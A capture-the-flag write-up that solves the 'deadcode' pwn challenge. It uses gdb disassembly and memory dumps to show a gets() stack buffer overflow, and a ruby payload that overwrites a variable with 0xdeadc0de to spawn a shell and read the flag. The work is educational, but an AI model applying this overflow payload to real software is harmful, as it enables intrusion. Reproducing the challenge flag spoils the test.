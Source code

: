 ___
# deadcode
_(pwn, beginner, 100 points, 528 solves)_

I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

Author: xXl33t_h@x0rXx

`nc pwn-2021.duc.tf 31916`

[deadcode](./deadcode)
___

## Investigation
`checksec` showed that besides NX no other stack mitigations are present. Following the `ltrace` I learned the relatively simple flow of the program and found a
potential buffer overflow vulnerability because the insecure `gets` functions is used to capture user input. I loaded the program into `gdb` and disassembled
the `main` function, which is the only one as `info functions` showed.

```
...
0x00000000004011c7 <+50>:   lea    rax,[rbp-0x20]
0x00000000004011cb <+54>:   mov    rdi,rax
0x00000000004011ce <+57>:   mov    eax,0x0
0x00000000004011d3 <+62>:   call   0x401060 <gets@plt>
0x00000000004011d8 <+67>:   mov    eax,0xdeadc0de
0x00000000004011dd <+72>:   cmp    QWORD PTR [rbp-0x8],rax
0x00000000004011e1 <+76>:   jne    0x401200 <main+107>
...
0x00000000004011ef <+90>:   lea    rdi,[rip+0xed5]        # 0x4020cb  "/bin/sh"
0x00000000004011f6 <+97>:   mov    eax,0x0
0x00000000004011fb <+102>:  call   0x401050 <system@plt>
...
```
We can see here that whatever resides at `rbp-0x8` is compared to `0xdeadc0de` and if equals, `system("/bin/sh")` is executed. So the goal is to overflow
the buffer at `rbp-0x20` and write `0xdeadc0de` to `rbp-0x8` - which initially is set to `0` - to spawn us a shell. Let's set a breakpoint right before the compare and run the program
with `AAAAAAAA` as input.  

```
(gdb) r
...
Breakpoint 1, 0x00000000004011d8 in main ()
(gdb) x/8x $rbp-0x20
0x7fffffffdec0:	0x41414141	0x41414141	0x00401000	0x00000000
0x7fffffffded0:	0xffffdfd0	0x00007fff	0x00000000	0x00000000
(gdb) p $rbp-0x8
$3 = (void *) 0x7fffffffded8
```

So we have to overwrite the contents of address `0x7fffffffded8` (thats's where `rbp-0x8` points to). The `AAAAAAAA`'s we typed in were sent straight to the buffer at
`0x7fffffffdec0` (that's where `rbp-0x20` points to) as we can see by the eight `0x41`'s (ASCII value for 'A'). From here we learn we have to fill the buffer
with 24 bytes and then get to write `0xdeadc0de` to our target address.  

## Solution
Let's pull off a quick ruby exploit for proof of concept.

```
(gdb) r <<< $(ruby -e 'print "A"*24 + "\xde\xc0\xad\xde"')
...
Breakpoint 1, 0x00000000004011d8 in main ()
(gdb) x/8x $rbp-0x20
0x7fffffffdec0:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffded0:	0x41414141	0x41414141	0xdeadc0de	0x00000000
(gdb) x/x $rbp-0x8
0x7fffffffded8:	0xdeadc0de
(gdb) c
Continuing.


Maybe this code isn't so dead...
```

... and we've successfully overflowed the buffer satisfying the compare to get our shell. From here we can just execute `cat flag.txt`
to get the flag.

See [exploit](./exploit.py) for an automation of the exploit written in python.  

> DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}

